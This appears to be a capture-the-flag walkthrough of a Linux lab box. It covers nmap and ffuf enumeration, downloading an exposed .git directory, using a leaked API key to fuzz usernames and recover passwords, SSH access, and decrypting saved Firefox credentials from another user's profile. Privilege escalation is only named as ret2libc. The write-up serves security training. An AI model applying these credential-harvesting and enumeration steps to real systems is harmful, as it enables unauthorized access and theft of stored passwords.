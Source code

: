 # Initial Enumeration
## NMAP Top 1000
```
PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b2:4c:49:da:7c:9a:3a:ba:6e:59:46:c2:a9:e6:a2:35 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDELanAivcbXHH+RqBWDQUmT0TJPTzxJ4XOLkZ4hQYAYCUXQ25C24k6ijW6MnKiImF9m9CoMdlzXIAC/DYArGJu+q5L68V1SAaqtS5YljXGb517Qi4ixekjaLua9Z+Du00c0nGWC46WA+JCjI6UP8FlTyNONXJ4Wv8T7ZA6T8rTrWZWd6dSTIKaZaN8fsD31cIJMuX2whX8IczzwzFuxp2ucPLJ0IwpoiX3ubuqUz4kkNi8FI5T2hweqqygLPmdA8AySZrIbmC4AusmmHwSf99aUHXjZ5Z6fHbHAwH0dsGDFaDvHuVFEp4l1h9TpZiKghUllDx9+6eRyKprJMpfvXZ1
|   256 7a:3e:30:70:cf:32:a4:f2:0a:cb:2b:42:08:0c:19:bd (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBPxb2LHHqkJNa+RUETb+7kg2rLKG3IxkiOZnG3YP7R5hd2KqQC1eJL1UyHcBKdOYrFllM43rkqfDVSxtm2f/ivc=
|   256 4f:35:e1:33:96:84:5d:e5:b3:75:7d:d8:32:18:e0:a8 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPwYIfNblUpR0Hf/77s33mZq1OUXZD4jQacBQBwiLapr
80/tcp   open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
8081/tcp open  http    syn-ack Werkzeug httpd 1.0.1 (Python 3.6.9)
| http-methods: 
|_  Supported Methods: GET OPTIONS HEAD
|_http-server-header: Werkzeug/1.0.1 Python/3.6.9
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```


## Fuff Results For Port 80
```
old                     [Status: 301, Size: 310, Words: 20, Lines: 10]
server-status           [Status: 403, Size: 277, Words: 20, Lines: 10]
                        [Status: 200, Size: 15, Words: 1, Lines: 4]
:: Progress: [30000/30000] :: Job [1/1] :: 996 req/sec :: Duration: [0:00:29] :: Errors: 2 ::
```

## FUFF Results For Port 8081
```
login                   [Status: 200, Size: 1555, Words: 65, Lines: 43]
api                     [Status: 200, Size: 18, Words: 3, Lines: 1]
forgot                  [Status: 200, Size: 1279, Words: 196, Lines: 28]
```



## Interesting Finds
- `.git` is found within `/old` directory on port 80
Pulling .git with 
`wget -r http://<IP>/old/.git`

We find by running `git log -p` some interesting information regarding the Flask web app.

```
if(data['key']=='<REDACTED>'):
return '{"username":"admin","password":"password"}'
```



## Moving Forward
We can use that on the API that is disclosed from `git log -p` (`/api/<uname>`) to fuzz for an active user using the key found. 

`ffuf -u http://<IP>:8081/api/FUZZ -w /opt/SecLists/Usernames/xato-net-10-million-usernames.txt:FUZZ -fs 16 -d '{"key":"<REDACTED>"}'
`

This returns the following user
`tommy`

by doing a POST request to the tommy endpoint `/api/tommy` we gain the password.

## Users
- tommy: `{"username":"tommy","password":"<REDACTED>"}`
- someone: `{"username":"user1","password":"<REDACTED>"}`


## Foothold
Once you obtain the users from the API. You can ssh in. 


# Authenticated Enumeration
## Users on Box
```
tommyV
carlJ
```


## Interesting Findings
User TommyV has read access on carlJ's home directory.

In this we can see .mozilla

Extracting the firefox directory from .mozilla, we can run firefox_decrypt.py
This prompts us for a password, in which we can spray with `<REDACTED>` to gain credentials:
```
Website:   https://incognito.com
Username: 'dev'
Password: '<REDACTED>'
```


## Privesc
ret2libc haha have fun. ez root 

praise be to M_Alpha and Rootedshell